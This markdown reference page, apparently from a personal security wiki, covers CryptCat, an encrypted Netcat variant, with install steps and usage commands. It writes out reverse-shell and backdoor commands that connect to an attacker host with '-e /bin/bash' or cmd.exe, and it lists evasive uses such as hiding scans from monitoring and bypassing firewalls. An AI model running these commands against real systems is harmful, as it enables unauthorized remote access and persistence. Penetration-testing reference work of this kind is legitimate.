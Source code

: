 ## Overview
CryptCat is a lightweight, enhanced version of the popular networking utility Netcat, with added support for encrypted communication. It is designed to be a versatile tool for network administrators and penetration testers, providing encrypted connectivity for data transfer and shell access. CryptCat retains much of Netcat’s functionality, such as creating backdoors and relays, but with the added benefit of encryption, making it more secure for use in network security testing and other remote access scenarios.

CryptCat uses the Twofish encryption algorithm to secure data in transit, preventing eavesdroppers from easily intercepting and reading sensitive data.

## Features
- **Encrypted Communication:** Uses the Twofish encryption algorithm to secure data transfer between clients and servers.
- **Backdoor Capabilities:** Allows creation of encrypted backdoors for remote access to systems.
- **File Transfer:** Supports encrypted file transfer between systems.
- **Port Scanning and Banner Grabbing:** Functions like Netcat to scan ports and grab banners while securing the traffic.
- **Cross-Platform Support:** Available for Unix-based systems (Linux, macOS) and Windows environments.

## Website
- [CryptCat GitHub Repository](https://github.com/byt3bl33d3r/cryptcat)

## Installation

### On Unix-based systems (Linux/macOS):

1. **Install CryptCat via Package Manager:**

   - **On Debian-based systems:**

```sh
sudo apt-get install cryptcat
```

   - **On macOS using Homebrew:**

```sh
brew install cryptcat
```

2. **Install via GitHub:**

   - Clone the CryptCat repository from GitHub:

```sh
git clone https://github.com/byt3bl33d3r/cryptcat.git
cd cryptcat
```

   - Compile and install CryptCat:

```sh
make linux
sudo make install
```

### On Windows:

1. **Download CryptCat:**

   - Download the CryptCat executable from the [official repository](https://github.com/byt3bl33d3r/cryptcat/releases).

2. **Run CryptCat:**

   - Open the command prompt and navigate to the directory where the executable is located.
   - Run `cryptcat` using the command line.

## Basic Usage
CryptCat can be used in various scenarios for secure communication, encrypted file transfer, and remote shell access. Here are some common commands and usage examples:

### Encrypted Chat Session
To establish an encrypted chat session between two systems:

1. **Start CryptCat on the Listening Side:**

```sh
cryptcat -l -p 4444 -k mysecretkey
```

   - **`-l`**: Specifies the listen mode.
   - **`-p 4444`**: Sets the port to listen on (4444 in this example).
   - **`-k mysecretkey`**: Specifies the encryption key for the session.

2. **Connect from the Client Side:**

```sh
cryptcat <listener-ip> 4444 -k mysecretkey
```

   - **`<listener-ip>`**: Replace with the IP address of the listening CryptCat instance.

### Encrypted File Transfer
To securely transfer a file from one system to another using CryptCat:

1. **Start CryptCat on the Receiving Side:**

```sh
cryptcat -l -p 4444 -k mysecretkey > received_file.txt
```

   - **`> received_file.txt`**: Redirects the received output to a file.

2. **Send the File from the Sending Side:**

```sh
cryptcat <receiver-ip> 4444 -k mysecretkey < file_to_send.txt
```

   - **`< file_to_send.txt`**: Specifies the file to be sent.

### Encrypted Reverse Shell
To create an encrypted reverse shell using CryptCat:

1. **Start CryptCat on the Listening Side (Attacker):**

```sh
cryptcat -l -p 4444 -k mysecretkey
```

2. **Run CryptCat on the Victim Side:**

```sh
cryptcat <attacker-ip> 4444 -k mysecretkey -e /bin/bash
```

   - **`-e /bin/bash`**: Executes `/bin/bash` on the victim system, providing a reverse shell.

### Encrypted Port Scanning
To perform an encrypted port scan:

```sh
cryptcat -v -z -n -k mysecretkey <target-ip> 20-80
```

- **`-v`**: Enables verbose mode.
- **`-z`**: Enables zero I/O mode (scanning).
- **`-n`**: Disables DNS resolution.
- **`-k mysecretkey`**: Uses the specified encryption key for scanning.

## Key Features and Commands

### Encrypted Communication
- **Description:** Uses the Twofish encryption algorithm to secure data transfer between systems, ensuring confidentiality.
- **Usage:**
```sh
cryptcat -l -p 4444 -k mysecretkey
cryptcat <listener-ip> 4444 -k mysecretkey
```

### Backdoor Capabilities
- **Description:** Allows creation of encrypted backdoors for remote access to systems.
- **Usage:**
```sh
cryptcat -l -p 4444 -k mysecretkey -e /bin/bash
cryptcat <attacker-ip> 4444 -k mysecretkey -e cmd.exe
```

### Encrypted File Transfer
- **Description:** Supports encrypted file transfer between systems, ensuring data is securely transmitted.
- **Usage:**
```sh
cryptcat -l -p 4444 -k mysecretkey > received_file.txt
cryptcat <receiver-ip> 4444 -k mysecretkey < file_to_send.txt
```

### Port Scanning and Banner Grabbing
- **Description:** Performs port scanning and banner grabbing over encrypted channels to avoid detection.
- **Usage:**
```sh
cryptcat -v -z -n -k mysecretkey <target-ip> 20-80
```

## Tools for Secure Communication and Offensive Security Using CryptCat

- **Secure Remote Access:** Use CryptCat to establish secure, encrypted remote access to systems for maintenance or post-exploitation activities.
- **Encrypted Data Transfer:** Safely transfer sensitive files between systems over an encrypted channel to prevent interception and unauthorized access.
- **Backdoor and Persistence:** Create encrypted backdoors that allow persistent access to compromised systems while maintaining confidentiality.
- **Port Scanning and Reconnaissance:** Conduct port scans and reconnaissance over encrypted connections to avoid detection by network monitoring tools.
- **Bypassing Network Filters:** Utilize CryptCat’s encrypted communication to bypass network security filters and firewalls.

## Best Practices
- **Use CryptCat Responsibly:** Always ensure that you have proper authorization before using CryptCat for offensive security tasks and network operations.
- **Stay Within Legal Boundaries:** Be aware of the legal implications of using network security tools and ensure compliance with local laws and regulations.
- **Combine with Other Tools:** Use CryptCat alongside other tools like [[Netcat]], [[Nmap]], and [[Wireshark]] for comprehensive network assessments and security testing.
- **Regularly Update CryptCat:** Keep CryptCat up-to-date to benefit from the latest features, security enhancements, and bug fixes.
- **Use Strong Encryption Keys:** Always use strong, complex encryption keys to ensure the confidentiality and integrity of your communications.

## References
- [CryptCat GitHub Repository](https://github.com/byt3bl33d3r/cryptcat)
- [CryptCat Documentation](https://github.com/byt3bl33d3r/cryptcat/blob/master/README.md)
- [CryptCat Usage for Encrypted Communication](https://null-byte.wonderhowto.com/how-to/use-cryptcat-for-encrypted-netcat-sessions-0197892/)
- [Netcat and CryptCat Cheat Sheet](https://highon.coffee/blog/netcat-cheat-sheet/)
- [Securing Communications with CryptCat](https://www.hackingarticles.in/securing-communications-with-cryptcat/)

